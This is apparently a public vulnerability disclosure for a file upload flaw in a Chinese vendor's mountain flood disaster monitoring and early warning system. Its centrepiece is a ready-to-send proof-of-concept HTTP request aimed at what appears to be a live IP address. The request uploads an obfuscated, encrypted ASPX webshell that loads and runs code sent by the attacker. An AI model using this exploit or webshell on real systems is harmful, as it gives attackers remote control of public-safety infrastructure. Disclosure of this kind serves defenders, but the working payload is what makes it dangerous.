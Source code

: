 Suncreate Technology Co., LTD. - There is a file upload vulnerability in the Duty Write-UploadFile module of mountain flood disaster prevention monitoring and early warning system

official website：https://www.istrong.cn/

Vulnerability location：/Duty/AjaxHandle/Write/UploadFile.ashx

![WPS图片(1)](https://github.com/MoeMion233/cve/assets/138176273/4a871404-da82-4a9e-8b28-a107010e2f77)

Trace class
/bin/Strongsoft.Web.dll
Strongsoft.Web.Duty.AjaxHandle.Write.UploadFile
Entry function

![WPS图片(2)](https://github.com/MoeMion233/cve/assets/138176273/b2357d9c-ef7c-4862-80dd-a358cd98e2c1)

Enter the ArticleFileIpLoad function:
![WPS图片(3)](https://github.com/MoeMion233/cve/assets/138176273/748918c0-546d-4659-a2fb-e03f714c8b10)

Unfiltered file types, you can get webshell. When the incoming doc = / location/UploadFile/yyyyMMddHHmmssfff after upload. Aspx.

POC
```
POC
POST /Duty/AjaxHandle/Write/UploadFile.ashx HTTP/1.1
Host: 112.54.87.226:8088
Content-Length: 1410
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryB4tZ2o9YRDmhPXe7
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryB4tZ2o9YRDmhPXe7
Content-Disposition: form-data; name="doc"

/
------WebKitFormBoundaryB4tZ2o9YRDmhPXe7
Content-Disposition: form-data; name="filetype"

1
------WebKitFormBoundaryB4tZ2o9YRDmhPXe7
Content-Disposition: form-data; name="ParentID"

1
------WebKitFormBoundaryB4tZ2o9YRDmhPXe7
Content-Disposition: form-data; name="Filedata"; filename="api.aspx"
Content-Type: application/xml

<%@ Page Language="C#" %>
<%@Import Namespace="System.Reflection"%>
<%@Import Namespace="System.IO"%>
<%@Import Namespace="System.Security.Cryptography"%>
<%
    try {
        string key = "900bc885d7553375";
        byte[] k = Encoding.Default.GetBytes(key);
        Session.Add("sky", key);
        StreamReader sr = new StreamReader(Request.InputStream);
        string line = sr.ReadLine();
        if (!string.IsNullOrEmpty(line))
        {

            byte[] c = Convert.FromBase64String(line);
            Assembly assembly = typeof(Environment).Assembly;
            RijndaelManaged rm =(RijndaelManaged) assembly.CreateInstance("System.Secur"+"ity.Crypto"+"graphy.Rijnda"+"elManaged");
            byte[] data=rm.CreateDecryptor(k, k).TransformFinalBlock(c, 0, c.Length);
            Assembly.Load(data).CreateInstance("U").Equals(this.Context);
            sr.Close();
        }
    }
    catch{ }

%>
------WebKitFormBoundaryB4tZ2o9YRDmhPXe7--
```

Vulnerability recurrence

![WPS图片(4)](https://github.com/MoeMion233/cve/assets/138176273/f00f327f-872e-489d-91da-c68eb6efab5a)

![WPS图片(5)](https://github.com/MoeMion233/cve/assets/138176273/b8c5aa0d-27d4-4283-8eda-8c38c4dd3dfd)

